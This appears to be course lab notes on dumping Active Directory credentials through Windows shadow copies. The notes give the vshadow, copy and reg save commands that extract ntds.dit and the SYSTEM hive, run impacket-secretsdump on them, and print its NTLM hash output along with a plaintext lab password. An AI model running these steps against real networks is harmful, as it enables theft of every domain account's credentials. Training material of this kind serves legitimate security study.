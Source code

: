 Topics: Shadow Copies
# Questions 1
Start VM Group 1 and repeat the steps discussed in this section. During a shadow copy operation, what is the designated name for the source location from which the ntds.dit is copied?
# Answer 
Shadow copy device name


# A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes. To manage volume shadow copies, the Microsoft signed binary vshadow.exe is offered as part of the Windows SDK.

# As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.

xfreerdp /u:jeffadmin /p:BrouhahaTungPerorateBroom2023! /d:corp.com /v:192.168.185.70 +drive:/home/kali/Desktop,/smb

Launch an elevated command prompt
C:\Tools>vshadow.exe -nw -p  C:
...
* SNAPSHOT ID = {3145853a-e223-4008-93be-4bc14de50f3c}
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
...

# Once the snapshot has been taken successfully, we should take note of the shadow copy device name. We'll now copy the whole AD Database from the shadow copy to the C: drive root folder by specifying the shadow copy device name and adding the full ntds.dit path.

C:\Tools> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

# As a last ingredient, to correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the reg utility and the save argument.

C:\>reg.exe save hklm\system c:\system.bak

# Transfer the file to our Kali machine and use impacket-secretdump to extract the NTLM hashes from volume backup
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eb9131bbcdafe388b4ed8a511493dfc6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:6ce7a763842704c39101fea70b77a6bc:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:024e0b5bc4f09a8f909813e2c5041a2c:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:31b5ed7d0a3a698d412c2d7d5aa2aca8:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:83582e1d6c859ac47dc703bbe72bfe73:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:c06a3d3d9dfe4af367e7a2ea975274b7:::
...

# An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation. To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method described in the previous Module

